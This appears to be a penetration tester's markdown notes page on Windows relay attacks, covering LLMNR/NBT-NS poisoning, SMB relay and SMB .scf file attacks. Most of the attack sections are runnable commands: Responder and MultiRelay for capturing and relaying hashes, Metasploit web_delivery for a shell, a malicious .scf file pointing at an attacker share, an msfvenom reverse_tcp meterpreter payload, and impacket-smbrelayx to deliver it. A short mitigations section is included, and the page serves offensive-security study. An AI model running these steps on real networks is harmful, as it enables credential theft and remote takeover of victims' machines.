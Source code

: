 # Relay attacks
---
# Navigation
- **[[#Whats LLMNR]]**
- **[[#SMB Relay attack]]**
- **[[#SMB scf attack]]**
- **[[#Further reading]]**
---
# Whats LLMNR?
**Link-Local Multicast Name Resolution (LLMNR)** and **NetBIOS Name Service (NBT-NS)** are Microsoft Windows components that serve as alternate methods of host identification. **LLMNR is based upon the Domain Name System (DNS) format** and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name.
But this method of host resolution has severe security impact, as when a non-existing host is searched using LLMNR method, it **broadcasts** the search request to every system connected to the local network. As a result, **if any of the systems in local network is somehow compromised by an attacker, it also receives the host search query and can send a response to the victim** (the system which initiated the host resolution query) that it knows the host **and in turn ask for the password hash of the victim**.

![[LLMNR.png]]

---
# SMB relay attack
## Definition
SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.
Instead of cracking the NTLM hashes taken from the LLMNR poisoning attack or any other method we can authenticate using the hash using SMB relay attack but this requires two conditions:
- The victim user must be a local admin.
- SMB signing must be disabled.
## Checking if SMB signing id disabled
```bash 
nmap -p 445 -sS --script smb-security-mode.nse <Target-IP>
```
## Exploitation
1. Turn off the SMB and HTTP servers by changing ‘On’ to ‘Off’.
```bash
nano /usr/share/responder/Responder.conf
```
2. Run Responder.
```bash
responder -I <Interface> -rv
#-I (capital i specifies interface) -rv (required settings for relay attack)
```
3. Boot up Multi-Relay and wait.
```bash
cd /usr/share/responder/tools
python MultiRelay.py -t <Targete-IP> -u ALL
```
4. Post-exploitation
Shut off responder and let's get a system shell
```bash
msfconsole
use exploit/multi/script/web_delivery
show targets #Then select 'PSH' (Powershell)
run
```
5. Take the command from metsaploit and execute it in the multirelay shell.
## Mitigations
1. Disable LLMNR and NetBIOS in local security settings or by group policy this can be done by running the following powershell command to change the registry to disbale llmnr and netbios.
```powershell
New-Item "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT" -Name DNSClient  -Force
New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\DNSClient" -Name EnableMultiCast -Value 0 -PropertyType DWORD  -Force
```
2.  Enabling SMB signing can stop NTLMv2 relay attacks (note that this will increase traffic because of the additional processing for each packet) and also some printers may not support SMB singing. To turn on SMB signing you can do so through group policy by enabling “Microsoft network client: Digitally sign communication (always)”
3.  Network segmentation is another way in which this can be mitigated because then the man in the middle attack is limited in scope. This can be achieved by segmenting the network through Vlans.
---
# SMB .scf attack
SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to **access a specific UNC path** which allows the penetration tester to build an attack.
> **A UNC path** is the path to a folder or file on a network and contains the server name in the path.
## Attack
1. Create a `File.scf` then upload the file.
```txt
[Shell]
Command=2
IconFile=\\192.168.1.171\share\AbuQasem.ico
[Taskbar]
Command=ToggleDesktop
```
> **NOTE**:
> It's recommended to add a `@file.scf` before the file name so the file will be listed in the top of the share folder.


2. Run `responder` and wait for the hash.
```bash
responder -wrf --lm -v -I eth0
```
3. If you want to go further and get a shell, create a malicious file and setup the `multi/handler`
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.171 LPORT=5555 -f exe > abuqasem.exe
```
4. Relay the file and check the msfconsole for the shell.
```bash
impacket-smbrelayx -h Target-IP -e ./abuqasem.exe
```
---
# Further reading
1. [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
2.   [https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef](https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef)
3.   [https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks](https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks)
4.   [https://www.ired.team/offensive-security/lateral-movement/lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing](https://www.ired.team/offensive-security/lateral-movement/lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing)
5.   https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/